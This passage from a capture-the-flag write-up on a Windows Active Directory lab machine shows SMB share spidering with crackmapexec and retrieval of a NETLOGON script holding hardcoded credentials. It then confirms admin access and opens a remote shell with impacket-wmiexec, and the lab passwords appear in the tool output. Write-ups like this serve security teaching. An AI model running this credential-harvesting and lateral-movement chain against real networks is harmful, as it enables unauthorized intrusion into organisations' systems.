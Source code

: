 With the credentials I found, I started another share enumeration, but I had no success. Therefore, I initiated another scan using `crackmapexec`:
```bash
$ crackmapexec smb 10.10.185.116 -u t-skid -p "t[removed]*" -M spider_plus
  SMB         10.10.185.116   445    WIN-2BO8M1OE1M1  [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
  SMB         10.10.185.116   445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\t-skid:tj072889* 
  SPIDER_P... 10.10.185.116   445    WIN-2BO8M1OE1M1  [*] Started spidering plus with option:
  SPIDER_P... 10.10.185.116   445    WIN-2BO8M1OE1M1  [*]        DIR: ['print$']
  SPIDER_P... 10.10.185.116   445    WIN-2BO8M1OE1M1  [*]        EXT: ['ico', 'lnk']
  SPIDER_P... 10.10.185.116   445    WIN-2BO8M1OE1M1  [*]       SIZE: 51200
  SPIDER_P... 10.10.185.116   445    WIN-2BO8M1OE1M1  [*]     OUTPUT: /tmp/cme_spider_plus
  [...]
  "NETLOGON": {
          "ResetPassword.vbs": {
              "atime_epoch": "2021-03-16 19:18:14",
              "ctime_epoch": "2021-03-16 19:15:49",
              "mtime_epoch": "2021-03-16 19:18:14",
              "size": "2.75 KB"
          }
```

The output revealed an interesting file, which caught my attention. I downloaded it afterward using smbclient. The file revealed additional credentials:
```bash
$ smbclient \\\\10.10.185.116\\NETLOGON -U vulnnet-rst.local/t-skid 
  Password for [VULNNET-RST.LOCAL\t-skid]:
  Try "help" to get a list of possible commands.
  smb: \> dir
    .                                   D        0  Tue Mar 16 19:15:49 2021
    ..                                  D        0  Tue Mar 16 19:15:49 2021
    ResetPassword.vbs                   A     2821  Tue Mar 16 19:18:14 2021

$ cat ResetPassword.vbs
  [...]
  strUserNTName = "a-whitehat"
  strPassword = "b[removed]t"
  [...]
```

I tested the credentials again with `crackmapexec`:
```bash
$ crackmapexec smb 10.10.185.116 -u a-whitehat -p "b[removed]t"           
SMB         10.10.185.116   445    WIN-2BO8M1OE1M1  [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.185.116   445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\a-whitehat:bNdKVkjv3RR9ht (Pwn3d!)

```

Great! I got a `Pwn3d!` response, indicating that I was able to get a shell using `impacket-wmiexec`, and I successfully retrieved the user flag:
```PowerShell
$ impacket-wmiexec  vulnnet-rst.local/a-whitehat@10.10.185.116 
  Impacket v0.12.0.dev1 - Copyright 2023 Fortra

  Password:
  [*] SMBv3.0 dialect used
  [!] Launching semi-interactive shell - Careful what you execute
  [!] Press help for extra shell commands
C:\>whoami
  vulnnet-rst\a-whitehat

C:\>hostname
  WIN-2BO8M1OE1M1

```